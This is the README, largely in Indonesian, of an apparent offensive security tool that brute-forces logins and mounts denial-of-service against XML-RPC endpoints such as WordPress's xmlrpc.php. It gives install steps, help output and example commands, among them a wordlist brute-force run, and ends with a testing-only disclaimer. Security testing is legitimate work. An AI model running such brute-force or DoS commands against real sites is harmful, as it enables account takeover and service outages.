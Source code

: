 # XMLRPC-Attack

**XMLRPC-Attack** adalah sebuah alat untuk mengidentifikasi dan mengeksploitasi kerentanan pada protokol XML-RPC yang sering digunakan oleh platform web seperti WordPress. Proyek ini bertujuan untuk membantu peneliti keamanan dalam menguji aplikasi web terhadap serangan brute force dan eksploitasi lainnya melalui endpoint XML-RPC.

## Fitur
<!--- **Deteksi Endpoint XML-RPC**: Mendeteksi endpoint XML-RPC yang aktif pada suatu website.-->
- **Brute Force Login**: Melakukan serangan brute force pada metode `system.multicall`.
- **DOS (Denial of Service)**: Mengeksploitasi kelemahan XML-RPC untuk melakukan serangan DOS.
- **Report Hasil**: Menyediakan laporan hasil serangan dalam format yang mudah dibaca.

## Instalasi
Pastikan Anda memiliki **Python 3.8** atau versi yang lebih baru.

Clone repository ini :
   ```bash
   git clone https://github.com/ForwardEcho/xmlrpc-attack.git
   cd xmlrpc-attack
   ```

Usage :
   ```bash
chmod +x xmlrpcattack.py
./xmlrpcattack.py -h
   ```
   ```bash

    ██╗  ██╗███╗   ███╗██╗     ██████╗ ██████╗  ██████╗     █████╗ ████████╗████████╗ █████╗  ██████╗██╗  ██╗
    ╚██╗██╔╝████╗ ████║██║     ██╔══██╗██╔══██╗██╔════╝    ██╔══██╗╚══██╔══╝╚══██╔══╝██╔══██╗██╔════╝██║ ██╔╝
     ╚███╔╝ ██╔████╔██║██║     ██████╔╝██████╔╝██║         ███████║   ██║      ██║   ███████║██║     █████╔╝
     ██╔██╗ ██║╚██╔╝██║██║     ██╔══██╗██╔═══╝ ██║         ██╔══██║   ██║      ██║   ██╔══██║██║     ██╔═██╗
    ██╔╝ ██╗██║ ╚═╝ ██║███████╗██║  ██║██║     ╚██████╗    ██║  ██║   ██║      ██║   ██║  ██║╚██████╗██║  ██╗
    ╚═╝  ╚═╝╚═╝     ╚═╝╚══════╝╚═╝  ╚═╝╚═╝      ╚═════╝    ╚═╝  ╚═╝   ╚═╝      ╚═╝   ╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝

    Author: ForwardEcho
    Version: 1.0
    Description: Simple XML-RPC client for testing purposes.

usage: xmlrpcattack.py [-h] -u URL [-U USER] [-P PASSWORDS] [-l] [-m METHOD] [params ...]

XML-RPC client

positional arguments:
  params                Parameters for the method (optional)

options:
  -h, --help            show this help message and exit
  -u, --url URL         URL of the XML-RPC server
  -U, --user USER       Username for brute force (required for brute force)
  -P, --passwords PASSWORDS
                        File containing passwords for brute force
  -l, --list            List available methods
  -m, --method METHOD   Method to call
   ```

Example :
List Supported Method
  ```
  ./xmlrpcattack.py --url https://example.com/xmlrpc.php -l
  ```
`demo.sayHello` method :
  ```
  ./xmlrpcattack.py --url https://example.com/xmlrpc.php -m demo.sayHello
  ```
`brute-force attack`:
  ```
  ./xmlrpcattack.py --url https://example.com/xmlrpc.php -U username -P wordlist.txt
  ```
  or
  ```
  ./xmlrpcattack.py --url https://example.com/xmlrpc.php --user username --password wordlist.txt
  ```

> [!IMPORTANT]\
> Proyek ini hanya untuk tujuan pendidikan dan pengujian keamanan! Penulis tidak bertanggung jawab atas penyalahgunaan alat ini. Pastikan Anda memiliki izin sebelum menguji situs web apa pun.
